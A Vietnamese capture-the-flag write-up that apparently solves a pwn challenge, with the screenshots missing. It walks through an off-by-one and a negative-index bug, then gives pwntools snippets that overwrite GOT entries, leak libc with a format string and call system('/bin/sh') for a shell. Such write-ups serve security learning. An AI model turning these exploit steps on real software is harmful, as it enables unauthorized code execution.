


**1. Tìm bug**

 - 

 - checksec thì thấy `relro partial` do đó ta có thể ghi đè phân vùng `got`, cũng như `pie` tắt dễ dàng cho việc ghi đè các địa chỉ hàm.

 - 

 - Tại `main` có call 3 hàm chính đó là `user_register`, `user edit` và `menu` trong đó `menu` là một `loop`.

 - ta sẽ đi vào 2 hàm của `user`

 - 

 - 

 - Nhìn thì có thể thấy ngay lỗi `off byte one` khi mà `strncpy` với lượng `size + 1`, với `max_size` là `0x100` tuy nhiên tới đây tôi vẫn chưa thấy gì về công dụng của nó

 - Sau khi tiến vào `menu` ta được cho các `option` sau:

 - 

 - Ta có thể thấy được lỗi `interger overflow` tại hàm `configure_engine`

 - 

 - Với `num` là `int` do đó ta có thể nhập nó với giá trị âm, khiến `&engines + 16*num` trỏ vào phân vùng `got`, ý tưởng ở đây là ta sẽ thay đổi `exit@got` thành `user_edit` và `strcspn@got` thành `printf` để leak `libc`.
 - Sau khi có `libc` ta sẽ ghi lại hàm `strcspn@got` thành `system`
 - Để thực thi được thì ta phải đưa `*curr_user + 64 = 1`, khi mà `*curr_user + 64` lại được set bằng 2 ở hàm `setup`

 - 
 - và ta cũng có thể thay đổi nó thông qua hàm `change_role` 
 - 
 - Tuy nhiên `*curr_user + 64` đến đây thì ta đã biết được lỗi `off byte one` kia để làm gì rồi đấy, ta sẽ sử dụng nó để đè `null` byte vào thằng này và có thể thực thi được `change_role`

**2. Exploit**

 - ```python
   payload = b'a'*0x100
   sa(b'username: ', payload)
   sla(b'> ', b'n')    
   sla(b'size: ', str(0x100).encode())
   sa(b'username: ', b'a'*255)
   ```

 - đầu tiên ta sẽ thay đổi `curr_user + 64` thành `null`, do `DWORD` nên ta sẽ `*4` trên `gdb` để kiểm tra

 - 

 -  ```python
    choice(5)
    sla(b'role: ', b'1')
    
    config_eng(-7, exe.sym['user_edit'], 0, b'y')
    config_eng(-12, exe.sym['printf'], 0x4010d0, b'y')
    
    ```

 - Tiếp ta thay đổi `*curr_user + 64` thành `1`, `exit@got` thành `user_edit` và `strcspn@got` thành `printf` do địa chỉ kế cận cũng sẽ bị thay đổi nên ở `strcspn@got + 8` tức `fgets@got` ta sẽ đưa địa chỉ nguyên thủy của nó để tránh lỗi là `0x4010d0`

 - 

 - ```python
   choice(0)
   sla(b'size: ', b'100')
   sla(b'username: ', b'%19$p')
   libc.address = int(r.recv(14), 16) - 0x29d90
   print(hex(libc.address))
   ```

 - Tiếp theo ta quay lại `user_edit` bằng `exit` và thực hiện leak `libc` thông qua `strcspn(s, "\n")` với `s` là `buffer` được nhập vào.

 - ```python
   config_eng(-12, libc.sym['system'], 0x4010d0, b'y\x00\x0a')
   
   choice(0)
   sla(b'size: ', b'100')
   sla(b'username: ', b'/bin/sh\x00')
   ```

 - Sau khi leak `libc` ta sẽ ghi `strcspn@got` thành `system` và thực thi lấy `shell` thông qua `user_edit`

 - 

 - 
